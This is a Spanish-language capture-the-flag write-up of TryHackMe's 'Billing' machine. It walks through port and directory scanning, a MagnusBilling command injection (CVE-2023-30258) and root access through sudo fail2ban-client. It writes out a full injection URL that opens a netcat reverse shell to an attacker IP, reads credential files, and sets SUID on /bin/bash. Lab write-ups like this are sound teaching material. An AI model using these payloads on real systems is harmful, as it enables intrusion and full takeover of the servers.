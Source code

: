 ```yaml
---
title: Billing
description: Write Up máquina Billing de Try Hack Me
published: true
date: 2025-05-06T15:58:54.503Z
tags: write up
editor: markdown
dateCreated: 2025-05-06T15:23:46.118Z
---
```


# Billing
Bienvenido, va a encontrar el write up de la máquina Billing de TryHackMe.

## Reconocimiento
Lo primero que vamos a hacer es un comando básico de detección de puertos mediante nmap. Por lo tanto el comando será
```nmap
nmap -sT -Pn -sV {IP} 
```
IMAGEN 1

Podemos observar como tenemos 3 puertos abiertos.
- Puerto 22: Para conexiones SSH
- Puerto 80: Para conexiones http
- Puerto 3306: Para base de datos SQL

Vamos a hacer un dirb para analizar todos las entradas disponibles en el website.
```
dirb http://{IP}
```
IMAGEN 2 DIRB

Observamos que tenemos el robots.txt disponible, por lo que vamos a entrar para observar que hay.

IMAGEN ROBOTS

No hay mucha información, por lo que vamos a ir al index normal.

IMAGEN INDEX

Como podemos observar, parece un login clasico, sin embargo si nos fijamos en la ventana podemos observar el nombre del software que es MagnusBilling.

Si nos vamos al website oficial podemos observar información de que usa un Framework de Javascript llamado ExtJS 6.2.0.981, esta versión es vulnerable según el CVE-2023-30258.

## Explotación
Ahora que tenemos el plan, vamos a ejecutar el script para poder hacer la sell reversa. 

Lo primero que vamos a hacer es un puerto de escucha con:
```nc -lnvp 443```

Luego vamos a escribir lo siguiente, lo cúal consiste en una ejecución de comando de forma remota mediante el path.

'http://{IP máquina}/mbilling/lib/icepay/icepay.php?democ=iamhacked;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc {IP atacante}10.9.3.144 443 >/tmp/f;#'

IMAGEN 5

Tras esto vamos a comprobar que usuario somos, con un id básico.

IMAGEN ID

Como podemos observar somos el usuario asterisk


Ahora lo que haremos será dirigirnos a /var/www/html/mbilling, donde vamos a analizar el contenido del index.php, para ver que configuración usa para el login.

IMAGEN INDEX

Como podemos observar, el archivo que nos interesa es uno ubicado en /protected/config y se llama main.php, ya qu eparece que esta toda la información.


Mirando el archivo podemos observar que toma la configuración de login de otro archivo de configuración llamado res_config_mysql.conf, ubicado en /etc/asterisk/res_config_mysql.conf.

IMAGEN BBDD

Vamos a entrar en la base de datos para ver si podemos acceder al website.

Antes vamos a securizar la shell mediante:
```
python3 -c "import pty;pty.spawn('/bin/bash')"
```

Tras esto hacemoz Ctrl + Z y ponemos stty raw -echo;fg

Le damos a enter dos veces y ponemos export TERM=xterm.

IMAGEN SECURIZAR

Tras esto vamos a acceder a la base de datos como ibamos a hacer en un principio.

Imagen dentro

Podemos observar como tenemos una base de datos llamada mbilling, es la que usaremos y dentro tenemos muchas tablas, pero la que nos interesa se llamada pkg_user. Por lo que vamos a hacer
```mysql
SELECT * FROM pkg_user;
```

Lamentableente la información es demasiado densa para entendar.

IMAGEN BASE DE DATOS SACADA

Deberiamos descifrar la contraseña para poder acceder al usuario, sin embargo para completar la máquina no es necesario.

## Finalización
Ahora vamos a comprobar si tenemos la flag en el Home del usuario, sin embargo podemos observar que no hay, por lo que vamos a comprobar usuarios existentes y buscaremos la flag ahí.


IMAGEN FLAG


Ahora vamos a comprobar que comandos podemos hacer mediante el uso de sudo -l

IMAGEN SUDO -L


Como podemos observar, somos capaces de ejecutar el comando fail2ban-client, como root sin problema. 
```
sudo fail2ban-client set asterisk-iptables action iptables-allports-ASTERISK actionban 'chmod +s /bin/bash'
```
Este comando hace que cuando fail2ban detecte una IP que no debería entrar, su sentencia es que ejecute el comando /bin/bash, com root.

También es necesario autobanear nuestra popia IP, para ello ponemos
```
sudo /usr/bin/fail2ban-client set asterisk-iptables banip {IP}
```

IMAGEN FAIL2BAN

Tras esto, podemos crear una nueva shell con
```bash
bash -p
```

IMAGEN BASH

Tras esto podemos finalizar con la máquina ya que nos detecta que nuestra IP está vetada y por lo tanto nos inicia sesión como root, nos dirigimos al directorio de root y podemos usar el website.
IMAGEN ROOT